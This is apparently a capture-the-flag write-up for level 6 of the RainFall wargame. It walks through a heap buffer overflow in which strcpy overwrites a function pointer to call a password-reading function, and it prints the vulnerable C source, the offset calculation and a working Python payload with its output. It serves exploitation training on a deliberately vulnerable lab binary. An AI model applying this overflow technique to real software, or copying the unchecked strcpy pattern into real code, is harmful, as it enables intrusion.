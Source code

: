 # Level 6

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <string.h>

void n()
{
    system("/bin/cat /home/user/level7/.pass");
}

void m()
{
    puts("Nope");
}

int main(int ac, char **argv)
{
    int *buffer;
    void (**func)(void);

    buffer = (char *)malloc(64);
    func = (void (**)(void))malloc(4);

    *func = m;
    strcpy(buffer, argv[1]);
    (*func)();
}
```

Let's focus on the `main` function. It reads input from the command line then copies it to our buffer using `strcpy`, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes copied.

Since we're interacting with the heap here we won't have to worry about the stack layout, in this case we'll have to overflow the buffer until we reach the function pointer and write the address of the `n` function to it.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
$ ltrace ./level6 test
__libc_start_main(0x804847c, 2, 0xbffff7e4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64) = 0x0804a008
malloc(4) = 0x0804a050
[...]
```

We notice that the first memory block is allocated 64 bytes and the second one 4 bytes. Furthermore, we also notice that the address of the first block is `0x0804a008` and the address of the second one is `0x0804a050`.  
So we simply have to subtract the addresses to get the size of the overflow needed to reach the function pointer: `0x0804a050` - `0x0804a008` = 0x48 (72 in decimal)

Using GDB we find that the address of the `n` function is `0x08048454`.

We can then craft our payload:
```
padding + address of n

"\x90"*72 + "\x08\x04\x84\x54"[::-1]
```

Let's run our payload:
```bash
level6@RainFall:~$ ./level6 `python -c 'print("\x90"*72 + "\x08\x04\x84\x54"[::-1])'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We are now level7! Let's move on to the next level.
